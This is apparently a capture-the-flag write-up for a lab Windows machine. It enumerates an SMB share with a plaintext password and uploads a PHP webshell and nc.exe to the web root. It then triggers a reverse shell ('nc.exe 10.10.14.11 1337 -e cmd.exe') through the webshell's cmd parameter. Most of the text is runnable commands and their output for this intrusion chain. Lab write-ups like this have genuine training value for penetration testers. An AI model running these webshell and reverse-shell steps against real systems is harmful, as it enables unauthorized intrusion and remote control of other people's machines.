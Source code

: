 We have READ/WRITE on new-site and READ on IPC$ shares.

Enumerating `new-site` share.
```
smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&' -r "new-site"
[+] IP: 10.10.10.97:445	Name: 10.10.10.97                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	new-site                                          	READ, WRITE	
	.\new-site\*
	dr--r--r--                0 Mon Aug  1 14:17:30 2022	.
	dr--r--r--                0 Mon Aug  1 14:17:30 2022	..
	fr--r--r--              696 Thu Jun 21 13:15:36 2018	iisstart.htm
	fr--r--r--            98757 Thu Jun 21 13:15:38 2018	iisstart.png
```
There's nothing of interest in there, but we know the new site is running on Port 8808 from browsing to it earlier we saw the default IIS page.
The site running on port 80 is using php, I'll assume port 8808 is also using php. 
Let's test the theory that the new-site is running on port 8808
Upload test.txt and curl it.
```
echo test > test.txt
fg
put test.txt
└─# curl http://10.10.10.97:8808/test.txt
test
```

The theory seems to be true, time to upload a shell.

Uploading shell via smb
Shell used: https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php
Upload nc.exe
```
└─#  cp /usr/share/windows-resources/binaries/nc.exe .                                                                         1 ⚙
                                                                                                                                   
┌──(root💀kali)-[~/…/TJNull2.0/Windows/secnotes/exploitation]
└─# fg                                                                                                                         1 ⚙
[1]  + continued  smbclient -H \\\\10.10.10.97\\new-site -U tyler
put nc.exe 
putting file nc.exe as \nc.exe (133.3 kb/s) (average 66.4 kb/s)
smb: \> 
```

Open a listener on the attacking machine and execute nc.exe using the webshell to connect back to it.
```
└─# nc -lnvp 1337
listening on [any] 1337 ...
```
http://10.10.10.97:8808/shell.php?cmd=nc.exe+10.10.14.11+1337+-e+cmd.exe
```
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.97] 50700
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
```
